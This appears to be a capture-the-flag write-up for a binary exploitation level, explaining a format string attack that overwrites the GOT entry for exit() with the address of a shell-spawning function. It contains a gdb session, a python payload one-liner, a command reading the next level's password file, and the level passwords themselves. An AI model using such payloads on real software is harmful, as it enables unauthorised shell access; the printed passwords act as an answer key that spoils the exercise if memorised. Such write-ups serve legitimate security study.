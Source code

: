 # Level5
```bash
su level5 #0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Steps
In this binary we can see that function `o()` calls `/bin/sh` however it is not part of the execution flow.     
We also notice that function `n()` called by `main` uses `printf` and `exit`. 

Since RELRO (Relocation Read-Only) protection is off, we can use a **format string attack** to modify the **Global Offset Table**.    
By replacing the `.got.plt` relocation address of `exit()` to `o()`, the `n()` function will call `o()` instead of `exit()` and open a shell prompt for us.    

External function call -> PLT (Procedure Linkage Table) -> GOT (Global Offset Table).

First we must find `exit()` in the GOT
```bash
gdb level5
(gdb) disass exit

Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.

(gdb) p *0x08049838 
$1 = 134513622	; 0x80483d6 this is the exit relocation address in the GOT that we want to replace with o() address
```

```bash
python -c "print '\x08\x04\x98\x38'[::-1] + '%134513824d' + '%4\$n'" > /tmp/inj5
cat /tmp/inj5 - | ./level5 | tr -d " "

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

